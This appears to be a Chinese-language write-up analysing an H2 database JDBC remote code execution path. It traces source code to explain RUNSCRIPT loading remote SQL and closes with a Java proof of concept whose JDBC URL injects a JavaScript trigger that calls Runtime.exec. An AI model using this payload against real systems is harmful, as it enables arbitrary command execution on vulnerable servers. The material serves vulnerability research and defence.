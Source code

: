 ![image-20221210110139897](images/64.png)

![image-20221210110228535](images/65.png)

然后调用prepareCommand方法

```
public synchronized CommandInterface prepareCommand(String var1, int var2) {
    return this.prepareLocal(var1);
}
```

跟进prepareLocal

![image-20221210110634160](images/66.png)

跟进这里的prepareCommand

![image-20221210110658791](images/67.png)

实例化一个CommandContainer对象并返回，最后回到opensession方法，调用CommandContainer的executeUpdate

![image-20221210110727867](images/68.png)

跟进executeUpdate

![image-20221210110830744](images/69.png)

跟进update

![image-20221210110937736](images/70.png)

调用RunScriptCommand的update方法

![image-20221210111133583](images/71.png)

从远处获取poc.sql，随后调用execute执行sql语句

为什么我们使用命令“RUNSCRIPT”？

因为我们使用的POC需要执行两条SQL语句，第一条是CREATE ALIAS，第二条是EXEC，分两步走。但是`session.prepareCommand`不支持多条sql语句执行。所以我们使用RUNSCRIPT从远程服务器加载sql。

### 通过源代码编译器达到不出网利用

所以我们应该想办法将 POC sql 减少到只有一条语句，而不需要连接到远程服务器。

Litch1为语句的创建者查看了源码`CREATE ALIAS`，发现语句中JAVA METHOD的定义交给了源码编译类。支持三种编译器：Java/Javascript/Groovy。

#### JavaScript

```
package com.example.testspring;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class test {
    public static void main (String[] args) throws ClassNotFoundException, SQLException {
        String javascript = "//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";
        String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ javascript +"'";
        Connection conn = DriverManager.getConnection(url);
        conn.close();
    }
}
```